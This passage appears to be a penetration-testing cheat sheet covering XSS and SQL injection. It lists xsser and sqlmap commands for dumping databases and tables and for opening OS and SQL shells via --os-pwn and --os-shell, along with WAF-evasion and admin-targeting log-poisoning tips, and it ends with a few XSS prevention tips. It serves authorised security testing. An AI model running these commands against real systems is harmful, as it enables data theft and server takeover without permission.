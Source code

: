 
## XSS / HTML injection

 - `xsser --gtk`
 - `xsser --url "https://pentest-experts.com/index.php?page=dns-lookup.php" -p "target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS" --cookie "PHPSESSID=gp9j95cv3q1tki2nsg8mml4lt6;showhints=0" --drop-cookie --auto --reverse-check -s`
 - https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection

**Prevention tips:**

 - Using XSS prevention headers.
 - Using the appropriate Content-Type for the page, like `X-Content-Type-Options=nosniff`.
 - Using `Content-Security-Policy` options, like `script-src 'self'`, which only allows locally hosted scripts. (https://web.dev/articles/csp?hl=en)
 - Using the `HttpOnly` and `Secure` cookie flags to prevent JavaScript from reading cookies and only transport them over HTTPS.

**Log poisioning to attack admin users**

 - Poision webserver logs e.g. via `User-Agent` header with XSS or HTMLi code to attack admin users viewing logs in a web interface.


## SQLi / NoSQLi

**SQLi**

You can change `--risk` to try riskier statements but some SQLi injection points like an `UPDATE` statement can overwrite all data in a table when combined with a `OR`-based payload (`--risk 3`). The setting `--risk 2` adds heavy time-based queries.

 - `sqlmap -r request.txt --level 5 --risk 3 -p vulnerable_field --random-agent --dbs`  
   Use captured request from ZAP / BurpSuite and use a random user agent string instrad of the sqlmap UA sting as many WAFs drop requests from sqlmap.
 - `sqlmap --dbms=mysql -u "https://pentest-experts.com/?search=xxx" --cookie="SID=123456ABC" --level 5 --risk 1 -p search --dbs`
 - `sqlmap --dbms=mysql -u "https://pentest-experts.com/?search=xxx" --cookie="SID=123456ABC" --level 5 --risk 1 -p search -D db_name --tables`
 - `sqlmap --dbms=mysql -u "https://pentest-experts.com/?search=xxx" --cookie="SID=123456ABC" --level 5 --risk 1 -p search -D db_name -T table_name --dump`
 - `sqlmap --dbms=mysql -u "https://pentest-experts.com/search/xxx*" --cookie="SID=123456ABC" --level 5 --risk 1 --dbs`  
   Explot the serach-value `xxx` in "nice" URLs - `*` can be used an marker in any field like cookies or GET-parameters, not only in "nice" URLs.
 - `sqlmap --dbms=mysql -u "https://pentest-experts.com/?search=xxx" --cookie="SID=123456ABC" --prefix "'" --suffix " -- "`  
   Specify suffix to start the SQLi and suffix to comment the left-overs out
 - `sqlmap --dbms=mysql -u "https://pentest-experts.com/?search=xxx" --cookie="SID=123456ABC" --technique U`  
   Specify query type - here UNION queries
 - `` 
 - `sqlmap --dbms=mysql -u "https://pentest-experts.com/?search=xxx" --cookie="SID=123456ABC" --os-pwn`
 - `sqlmap --dbms=mysql -u "https://pentest-experts.com/?search=xxx" --cookie="SID=123456ABC" --os-shell`
 - `sqlmap --dbms=mysql -u "https://pentest-experts.com/?search=xxx" --cookie="SID=123456ABC" --sql-shell`
 - `sqlmap -r request.txt --parse-errors --dbs`  
   Parse SQL errors and output them to the console
 - `sqlmap -r request.txt --code=200 --dbs`  
   Use HTTP response code 200 to detect `True` - useful in case a `False` response would result in a different status code (e.g. 500 server error or 302 redicrection).
 - `sqlmap -r request.txt --string="Welcome" --dbs`  
   Detect `True` / `False` responses based on the presence / absence of a string.
 - `sqlmap -r request.txt --union-cols=5 --dbs`  